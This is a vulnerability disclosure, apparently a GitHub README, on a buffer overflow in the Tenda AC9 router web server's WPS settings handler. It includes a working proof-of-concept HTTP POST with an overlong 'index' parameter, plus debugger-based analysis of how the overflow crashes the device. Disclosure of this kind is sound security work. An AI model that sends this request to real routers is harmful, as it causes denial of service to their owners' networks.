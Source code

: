 # Tenda AC9 0day Vulnerability report

## 1、Basci information

vendor: Tenda

product: AC9 and so on

version: V1.0V15.03.05.19（6318）、V3.0V15.03.06.42_multi and so on

Vulnerability type: buffer overflow

Vulnerability Effect: Denial of Service

## 2、Principle description of vulnerability technology

Affected Vulnerability Components:
- File name: bin/httpd
- function: wifi wps setting

## 3、Vulnerability value

Stable reproducibility: Yes

exploit conditions：
- attack vector type: neighboring network
- Stability of exploit: every attack can be successful
- Whether the product is configured by default: there are loopholes in the functional components that are enabled at the factory

## 4、PoC

```
POST /goform/WifiWpsOOB HTTP/1.1
Host: 192.168.56.102
Proxy-Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: password=lqetgb
Content-Length: 2444

index=ttttaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&sta_pin=tttt&wifi_chkHz=tttt
```

## 5、Vulnerability principle

### 5.1 static analysis

After analysis, the code causing the vulnerability is shown in the following figure. Because the parameter `index` imported from outside is not checked, the attacker can directly execute the `sprintf` of the 54 lines of the vulnerability function by constructing malicious data, resulting in the effect of buffer overflow, which eventually leads to denial of service

![](imgs/stack3/code.png)

### 5.2 dynamic analysis

The crash site is as follows

![](imgs/stack3/debug1.png)

Specific debugging shows that the breakpoint is set before the assembly code `0x0009B928` corresponding to `sprintf` of 54 lines of IDA disassembly code, and the contents of register SP are normal before the program executes this statement

![](imgs/stack3/debug2.png)

When this statement is executed, an overflow occurs, and the contents of register SP become as follows

![](imgs/stack3/debug3.png)

The reason for the denial of service is shown in the following figure. The instruction `pop {r4,r5,fp,pc}` at the address `0x0009B940` pops up the stack contents to the register PC, which causes the program to execute a nonexistent command, and finally causes the effect of denial of service

![](imgs/stack3/debug4.png)

## 6、CNVD reference 

[CNVD reference](https://www.cnvd.org.cn/flaw/show/CNVD-2021-26080)